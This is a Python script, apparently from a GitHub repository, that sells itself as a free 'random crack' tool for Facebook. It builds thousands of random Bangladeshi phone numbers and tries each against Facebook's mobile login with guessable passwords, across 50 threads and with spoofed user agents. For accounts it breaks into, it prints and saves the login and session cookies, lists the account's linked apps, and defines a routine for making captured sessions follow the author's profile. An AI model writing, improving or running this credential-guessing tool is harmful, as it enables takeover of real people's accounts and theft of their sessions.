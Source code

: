 
#-------------------------------------------------------------
#Don't Forget To Follow My Github &
#Sent Star This Repositories 🙂
#-------------------------------------------------------------
#10K-Gift-Test-Coding
#!/usr/bin/python3
#-*-coding:utf-8-*-
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
#-----[Global Functions]-----#
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
#-----[Colours]-----#
RED = '\033[1;91m' #
WHITE = '\033[1;97m' #
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m' #
BLUE = '\033[1;34m' #
ORANGE = '\033[1;35m' #
P = '\x1b[1;97m' # 
M = '\x1b[1;91m' # 
H = '\x1b[1;92m' # 
K = '\x1b[1;92m' # 
B = '\x1b[1;94m' # 
U = '\x1b[1;95m' # 
O = '\x1b[1;96m' #
N = '\x1b[0m' #
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
mtd,cp_cpx,cokix=[],[],[]
ugen2=[]
ugen=[]
#-----[App Checker]-----#
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSORRY THERE IS NO ACTIVE  APK%s  '%(N,M,N,M,N))
    else:
        print(f'\r[😍] %s \x1b[1;95m YOUR ACTIVE APPS   :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSORRY THERE IS NO EXPIRED APK%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[🥵] %s \x1b[1;95m YOUR EXPIRED APPS    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')

def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
           
#-----[UserAgent]-----#
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
         
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.001)
#-----[Logo]-----#
logo = ("""
\033[1;91m    
𝐎𝐕𝐈
 ┌─────────────────────────────────────────┐
 │ [✓] AUTHOR   : Ovi         │
 │ [✓] TOOL     : RANDOM CRACK             │
 │ [✓] STATUS   : FREE                     │
 │ [✓] WhatsApp   : +8801816105786         │
 │ [✓] FACEBOOK : Ovi Chowdhury               │
 └─────────────────────────────────────────┘""")
try:
   print('\n\n\033[1;33mLOADING ASSET FILES ... \033[0;97m')
   v = 5.2
   update = ('5.2')
   update = ('5.2')
   if str(v) in update:
       os.system('clear')
   else:pass
except:print('\n\033[1;31mNO INTERNET CONNECTION ... \033[0;97m')

def linex():
        print('\033[1;37m ──────────────────────────────────────────')
 
def clear():
    os.system('clear')
    print(logo)
    
#-----[Loop Menu]-----#  
loop = 0
oks = []
cps = []

#-----[Main-Menu]-----#
def mumit_menu():
    os.system('clear');print(logo)
    print('\033[1;92m [1] RANDOM CRACK')
    print('\033[1;92m [0] EXIT TOOL')
    linex()
    mumit=input(' \033[1;32m[?] SELECT MENU: ')
    if mumit in['1','01']:innocent()
    elif mumit in['0','00']:exit()
    else:exit()
    
def innocent():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print('\033[1;32m [√] BD CODE : 017/019/016/018/013')
    linex()
    code = input('\033[1;32m [?] CHOOSE : ')
    os.system('clear')
    print(logo)
    print('\033[1;32m [√] EXAMPLE : 3000/5000/10000/50000')
    linex()
    limit = int(input('\033[1;32m [?] CHOOSE : '))
    linex()
    xd_cp=input(f'\033[1;32m [?] You Want To Show Cp Account?[\033[1;32mY\033[1;34m/\033[1;31mN\033[1;32m]: ')
    if xd_cp in ['y','Y','yes','Yes','1']:cp_cpx.append('y')
    else:cp_cpx.append('n')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with ThreadPool(max_workers=50) as ahare:
        clear()
        tl = str(len(user))
        print('\033[1;32m [+] Choice Code: '+code)
        print('\033[1;92m [+] Crack Process Has Started')
        print('\033[1;92m [!] Use Flight Mode For Speed Up')
        linex()
        for fuck in user:
            pwx = [fuck,'bangladesh']
            uid = code+fuck
            ahare.submit(mumitx,uid,pwx,tl)
    print('CRACK PROCESS HAS BEEN COMPLETED ')
    print('Ok Ids Saved in /Ovi-OK.txt')
    print('Cp Ids Saved in /Ovi-CP.txt')
    linex()
    
def mumitx(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'm.facebook.com',
    'method':'POST',
    'path':'/login/device-based/login/async/?refsrc=deprecated&lwv=100',
    'scheme':'https',
    'accept': '*/*',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'content-type': 'application/x-www-form-urlencoded',
    'origin': 'https://m.facebook.com',
    'referer': 'https://m.facebook.com/',
    'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'x-asbd-id': '198387',
    'x-fb-lsd': 'AVoPmsopEAk',
    'user-agent': pro}
            lo = session.post('https://m.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[Ovi-OK] ' +uid+ ' | ' +ps+ ' \033[0;97m')
                print('\033[1;32m[COOKIE] = \033[1;37m'+coki+ '')
                cek_apk(session,coki)
                open('/sdcard/Ovi-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                if 'y' in cp_cpx: 
                 print('\r\r\033[1;30m[Ovi-CP]  ' +uid+ ' | ' +ps+ ' \033[0;97m')
                open('/sdcard/Ovi-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r\r%s\033[0;97m[\033[0;96mINNOCENT\033[0;97m]..[\033[0;94m%s/%s\033[0;97m]..[\033[0;92mOK\033[0;97m/\033[0;91mCP\033[0;97m]..[\033[0;92m%s\033[0;97m/\033[0;91m%s\033[0;97m] '%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

#-----[Run Menu]-----#
mumit_menu()
